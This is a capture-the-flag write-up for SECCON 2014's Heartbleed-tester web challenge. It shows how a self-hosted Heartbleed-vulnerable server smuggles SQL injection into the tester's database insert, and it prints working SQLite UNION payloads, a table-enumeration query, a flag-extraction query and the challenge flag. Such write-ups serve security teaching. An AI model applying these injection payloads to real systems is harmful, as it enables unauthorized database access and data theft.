 # SECCON CTF 2014: Bleeding “Heartbleed” Test Web

**Category:** Web
**Points:** 300
**Description:**

> <http://bleeding.pwn.seccon.jp/>

## Write-up

The link points to a service that allows you to enter an IP address and a port number. The correspondingserver is then tested for the Heartbleed vulnerability.

Entering a random IP address (in this case, `173.194.65.100`, one of Google’s IPs) and port 443 results in the URL `http://bleeding.pwn.seccon.jp/?ip=173.194.65.100&port=443`, which displays the test results:

> ```
> Connecting...
> Sending Client Hello...
> Waiting for Server Hello...
>  ... received message: type = 22, ver = 0302, length = 61
>  ... received message: type = 22, ver = 0302, length = 3852
>  ... received message: type = 22, ver = 0302, length = 331
>  ... received message: type = 22, ver = 0302, length = 4
> Sending heartbeat request...
> ```

Below the test results, there is a disclaimer:

> We put test results into our database for analysis. Thank you for your understanding.

A-ha… Could this be a SQL injection challenge?

The HTML source code contains a comment:

```html
<!-- DEBUG: INSERT OK. TIME=1417889356 -->
```

This indicates that the server performs an `INSERT` query.

First, we need to set up a server that is vulnerable to Heartbleed, and that ‘bleeds’/leaks a payload under our control. Luckily, [PPP has already written a script doing just that for PlaidCTF](https://github.com/pwning/plaidctf2014/blob/master/web/heartbleed/Makefile). After some small tweaks to make it read the Heartbleed payload from a file (`/tmp/heartpayload`) at run-time rather than from a hardcoded string at compile-time, we end up with [`Makefile`](Makefile). Insert your server’s IP address at the top of the file, and then run:

```bash
$ make clean && make && ./heartbleed.sh
```

Entering your server details on the web page then takes you to <http://bleeding.pwn.seccon.jp/?ip=$your_server_ip&port=443>. By editing the `/tmp/heartpayload` file on our server and then reloading the above page, we can easily test different payloads.

Using just a single quote (`'`) as the payload results in the following error message:

> DATABASE ERROR!!! near ".": syntax error
>
> ```sql
> select time from results where result='Connecting... Sending Client Hello... Waiting for Server Hello... ... received message: type = 22, ver = 0302, length = 66 ... received message: type = 22, ver = 0302, length = 839 ... received message: type = 22, ver = 0302, length = 331 ... received message: type = 22, ver = 0302, length = 4 Sending heartbeat request... ... received message: type = 24, ver = 0302, length = 16384 Received heartbeat response: .@.'...... WARNING: server returned more data than it should - server is vulnerable! ';
> ```

It seems the server executes the abovementioned `INSERT` query, followed by a `SELECT` query just to fetch the matching timestamp that is displayed in the HTML comment.

After some attempts we realize we can override the timestamp value by using a payload like this:

```
' UNION SELECT 1337 WHERE 1=1 OR '1' LIKE '
```

The `1337` part of that payload is reflected in the HTML comment:

```html
<!-- DEBUG: INSERT OK. TIME=1337 -->
```

Since it seems to be a sqlite database, let’s try to figure out the table names:

```
' UNION SELECT group_concat(name) FROM sqlite_master WHERE type='table';--
```

The result:

```html
<!-- DEBUG: INSERT OK. TIME=results,ssFLGss,ttDMYtt -->
```

So there are three tables: `results`, `ssFLGss`, and `ttDMYtt`. That second one seems interesting. Eventually we end up with this final payload:

```
' UNION SELECT flag from ssFLGss WHERE 1=1 OR '1' LIKE '
```

And the result:

```
<!-- DEBUG: INSERT OK. TIME=SECCON{IknewIt!SQLiteAgain!!!} -->
```

The flag is `SECCON{IknewIt!SQLiteAgain!!!}`.

## Other write-ups and resources

* none yet

